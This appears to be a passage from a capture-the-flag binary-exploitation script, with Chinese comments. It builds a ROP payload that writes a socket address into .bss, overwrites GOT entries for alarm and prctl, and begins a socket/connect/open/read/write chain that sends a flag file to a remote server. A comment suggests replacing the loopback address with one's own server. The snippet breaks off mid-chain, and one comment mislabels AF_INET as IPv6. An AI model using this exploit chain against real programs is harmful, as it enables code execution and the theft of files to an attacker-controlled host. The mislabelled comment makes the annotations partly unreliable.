 ```python

#此时在将sockaddr结构写入bss段
# 127.0.0.1 1000 其中0100007f为127.0.0.1 e803 为03e8即1000，0002为AF_INET
#下面两部分，是在凑齐p64(0x0100007fe8030002),因为ebp一次只能传四字节，因此要传两次
#这个回环地址可以改成⾃⼰的服务器的ip端⼝（以此在比赛当做拿到远程的flag）
payload+=p64(gadget)
payload+=p64(0xe8030002)#同上，即使最后ebx只传送四字节，但依然要用p64来放到栈里，用来保持一个完整的内存单元
payload+=p64(bss_addr+8+0x3d)#这里加8是要跳过flag所处的整个内存单元
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget_addr)

payload+=p64(gadget)
payload+=p64(0x0100007f)
payload+=p64(bss_addr+12+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget_addr)


#修改alarm的got表为syscall地址
payload+=p64(gadget)
payload+=p64(0x5)
payload+=p64(alarm_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget_addr)


#prctl libc偏移0x122210
#pop_rax_pop_rdx_pop_rbx的偏移为0x166241
#执行完下面的内容之后，prctl函数的got表装的是pop_rax_pop_rdx_pop_rbx ; ret
payload+=p64(0x4008da)
payload+=p64(0x44031)
payload+=p64(prctl_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0x400618)

#接下来执行的内容是
#socket(2,1,0)
#connect(0,socket_struct_addr,0x8)
#open(flag_addr,0)
#read(1,bss_addr+400,0x30)
#write(0,bss_addr+400,0x30)


#socket(2,1,0)ipv6,面向连接的套接字,tcp传输协议
payload+=p64(pop_rdi_addr)
payload+=p64(2)
payload+=p64(pop_rsi_r15_addr)
payload+=p64(1)
payload+=p64(0)#r15
payload+=p64(prctl_plt_addr)#pop_rax_pop_rdx_pop_rbx ; ret
payload+=p64(0x29)
```